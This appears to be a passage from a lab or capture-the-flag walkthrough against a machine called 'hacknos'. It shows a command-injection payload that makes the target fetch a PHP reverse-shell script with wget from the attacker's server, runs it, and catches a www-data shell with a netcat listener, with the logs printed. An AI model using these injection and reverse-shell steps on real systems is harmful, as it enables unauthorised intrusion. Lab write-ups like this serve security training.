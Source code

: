 ## RFI

```
|wget 192.168.56.70/not_found
|wget 192.168.56.70/rshell.php
```

```shell
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.56.60 - - [01/Jan/2022 10:52:31] code 404, message File not found
192.168.56.60 - - [01/Jan/2022 10:52:31] "GET /not_found HTTP/1.1" 404 -
192.168.56.60 - - [01/Jan/2022 10:53:39] "GET /rshell.php HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

```

## Reverse shell

```
|php rshell.php
```

```shell
sudo nc -nlvp $LPORT -s $LHOST
[sudo] password for f0c1s:
Listening on 192.168.56.70 443
Connection received on 192.168.56.60 50590
Linux hacknos 5.3.0-24-generic #26-Ubuntu SMP Thu Nov 14 01:33:18 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:54:36 up  1:02,  0 users,  load average: 0.07, 0.02, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ hostname
hacknos
$ date
Sat Jan  1 10:54:57 UTC 2022
$
```

![9.caught-a-reverse-shell](9.caught-a-reverse-shell.png)
